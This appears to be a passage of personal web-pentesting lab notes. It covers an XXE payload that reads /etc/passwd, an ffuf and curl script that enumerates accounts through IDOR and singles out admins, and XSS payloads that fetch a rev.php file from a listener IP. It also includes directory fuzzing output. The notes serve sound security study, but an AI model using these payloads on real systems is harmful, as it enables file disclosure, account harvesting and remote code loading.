 we can create a custom variable (entity) named xxe for example - below. Get the receiving system to resolve it.
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE creds [
	<!ELEMENT creds ANY >
	<!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<creds><username></username><password></password></creds>
```

# IDOR
#idor #insecure_direct_object_reference
*Insecure Direct Object Reference (IDOR)*
a.k.a. *Broken Object Level Authorization (BOLA)* #bola #broken_object_level_authorization
[Reference](https://portswigger.net/web-security/access-control/idor)

if value of param id can be changed and server responds, when it's not supposed to
http://server:port/resource?id=123

```
python3 -c 'for i in range (1, 2001): print(i)' > num.txt

ffuf -u 'http://localhost/labs/e0x02.php?account=MYFUZZ' -w ./num.txt:MYFUZZ -fs 849 | rg -oe "\d{4}" > account_numbers.txt

for i in $(cat ./account_numbers.txt)
do
	resp=$(curl -s "http://localhost/labs/e0x02.php?account=$i")
	user_type=$(echo $resp | rg -oe "Type:\s(.*?)<" -r '$1')
	user=$(echo $resp | rg -oe "Username:\s(.*?)<" -r '$1')
	echo -e "$user_type:\t$user" >> user_types.txt
done

cat user_types.txt | rg "admin"
```


# Capstone
Potential vulnerabilities:

## XSS in 'Add Rating' text box
html injection was successful 
- [ ] try xss
```
<img src=x onerror="fetch('http://192.168.122.142:8000/rev.php'" />

<script>fetch('http://192.168.122.142:8000/rev.php', { mode: 'no-cors' })</script>
```

## ffuf
```
$ ffuf -u 'http://localhost/capstone/FUZZ' -w /usr/share/wordlists/dirb/common.txt

.hta
.htaccess
.htpasswd
admin
assets
index.php
```
